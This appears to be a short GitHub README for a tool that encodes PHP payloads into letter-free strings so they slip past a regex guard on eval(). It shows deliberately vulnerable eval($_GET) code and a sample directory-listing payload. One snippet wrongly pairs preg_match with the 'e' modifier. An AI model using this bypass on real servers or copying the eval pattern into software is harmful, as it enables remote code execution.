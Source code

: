 # PHP eval() with regex restriction exploit

In some CTF, or maybe real code, we seen sometimes this kind of vulnerabilies : 

```php
if( !preg_match('/[a-z]/i', $_GET['evalThis'] ) ){
	eval( $_GET['evalThis'] );
} 
```

Or the old version with the **e** option in preg_match : 

```php
if( !preg_match('/[a-z]/ie', $_GET['evalThis'] ) ){
	echo( $_GET['evalThis'] );
} 
```

The write of some payloads are very very long, like you can seen to this URL : https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

So i'll decided to make it simple an write a script to convert, our PHP payload code to string can bypass this restriction.

To use it, that was simple, edit the code modify this two lines : 

```php
$payloadToEncode  = '$_=\'scandir\';$__=\'var_dump\';$__($_(\'./\'));';
$regexExcludeChar = '/[a-z]|[0-9]/i ';
```

And run the php code with php-cli or in your webserveur.

